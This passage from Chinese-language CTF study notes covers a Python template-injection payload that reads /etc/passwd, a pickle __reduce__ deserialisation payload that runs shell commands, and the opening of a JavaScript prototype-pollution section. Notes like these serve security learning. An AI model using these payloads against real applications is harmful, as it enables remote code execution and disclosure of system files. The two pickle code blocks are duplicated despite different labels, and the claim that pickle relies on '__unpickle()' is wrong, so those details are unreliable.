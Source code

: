 - 无过滤无沙箱的情况下: `''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()` 读出 `/etc/passwd`

### Python 反序列化

原理和 PHP 反序列化是一样的, python 里这个叫魔术方法:

> 这篇文章说的很好: [知乎文章](https://zhuanlan.zhihu.com/p/89132768)

#### 从 php 出发去理解 python 反序列化

Python 的反序列化依赖于 pickle 这个模块, 其底层的魔术方法是 `__unpickle()` 。 

python 的序列化规则和 php 有所不同, 并不是把对象压成一个符合规范的 json 字符串, 而是一种类似反汇编语言的结构;

#### 典型的利用(__reduce__)

　　一种很流行的攻击思路是：利用 _`_reduce__` 构造恶意字符串，当这个字符串被反序列化的时候，`__reduce__` 会被执行。网上已经有海量的文章谈论这种方法，所以我们在这里不过多讨论。只给出一个例子：正常的字符串反序列化后，得到一个Student对象。我们想构造一个字符串，它在反序列化的时候，执行ls /指令。那么我们只需要这样得到payload：

```python
# 无 os
import pickle
import base64
 
class A(object):
    def \_\_reduce\_\_(self):
        return (eval, ("\_\_import\_\_('os').popen('tac /flag').read()",))
    
a = A()
a = pickle.dumps(a)
print(base64.b64encode(a))
```

```python
# 有 os
import pickle
import base64
 
class A(object):
    def \_\_reduce\_\_(self):
        return (eval, ("\_\_import\_\_('os').popen('tac /flag').read()",))
    
a = A()
a = pickle.dumps(a)
print(base64.b64encode(a))
```

## JS

### 原型链污染

> 原理参考: [Blog](https://drun1baby.top/2022/12/29/JavaScript-%E5%8E%9F%E5%9E%8B%E9%93%BE%E6%B1%A1%E6%9F%93/#1-%E4%BB%80%E4%B9%88%E6%98%AF%E5%8E%9F%E5%9E%8B%EF%BC%88JavaScript-%E5%8E%9F%E5%9E%8B%E9%93%BE%E7%BB%A7%E6%89%BF%EF%BC%89)
